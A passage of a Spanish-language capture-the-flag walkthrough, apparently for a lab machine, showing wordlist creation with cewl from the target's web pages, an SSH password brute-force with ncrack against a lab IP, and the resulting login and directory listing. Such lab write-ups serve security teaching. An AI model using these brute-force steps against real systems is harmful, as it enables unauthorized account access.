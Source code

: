 ```bash

<h2>Table of content</h2>
<ul>
<li><a href="./chapter1.html">Chapter 1</a></li>
<li><a href="./chapter2.html">Chapter 2</a></li>
<li><a href="./chapter3.html">Chapter 3</a></li>
<li><a href="./chapter4.html">Chapter 4</a></li>
<li><a href="./chapter5.html">Chapter 5</a></li>
<li><a href="./chapter6.html">Chapter 6</a></li>
<li><a href="./chapter7.html">Chapter 7</a></li>
<li><a href="./chapter8.html">Chapter 8</a></li>
<li><a href="./chapter9.html">Chapter 9</a></li>
</ul>

</html>
```
¡Sí! ¡Tenemos bastantes textos aquí! ¡Podemos crear una lista de palabras con `cewl`!
```bash
╰─ cewl http://10.10.170.245/simeon/ > wl.txt

╰─ wc wl.txt                                                                                                                                    ─╯
 207  213 1588 wl.txt
```

## Acceso inicial - Usuario

Ahora, veamos si la contraseña para el servicio `SSH` de este usuario está dentro de esa lista de palabras que creamos.
Usamos `ncrack` para verificar esto, pero puedes usar `hydra` o incluso `nmap`.

```bash
╰─ ncrack -p 22 -u simeon -P wl.txt 10.10.170.245                                                        ─╯

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-03-26 20:34 CET

Discovered credentials for ssh on 10.10.170.245 22/tcp:
10.10.170.245 22/tcp ssh: 'simeon' 's[REDACTED]e'

Ncrack done: 1 service scanned in 42.23 seconds.

Ncrack finished.
```
¡Lo conseguimos! ¡Iniciemos sesión ahora!
```bash
╰─ ssh simeon@10.10.170.245                                                                              ─╯
simeon@10.10.170.245's password:
Last failed login: Sat Mar 26 20:35:28 CET 2022 from ip-***********.eu-west-1.compute.internal on ssh:notty
There were 206 failed login attempts since the last successful login.
Last login: Sat Mar 26 19:52:51 2022 from ip-***********.eu-west-1.compute.internal
[simeon@aratus ~]$ ls -la
total 20
drwxr-xr-x. 12 simeon   simeon 4096 Jan 10 14:06 .
drwxr-xr-x.  5 root     root     54 Nov 23 17:24 ..
lrwxrwxrwx.  1 simeon   simeon    9 Nov 23 10:48 .bash_history -> /dev/null
-rw-r--r--.  1 simeon   simeon   18 Apr  1  2020 .bash_logout
-rw-r--r--.  1 simeon   simeon  193 Apr  1  2020 .bash_profile
-rw-r--r--.  1 simeon   simeon  231 Apr  1  2020 .bashrc
drwx------.  2 simeon   simeon   29 Jan 10 14:05 .ssh
lrwxrwxrwx.  1 root     root      9 Dec  2 12:02 .viminfo -> /dev/null
drwxr-xr-x.  5 simeon   simeon   66 Nov 23 11:07 chapter1
```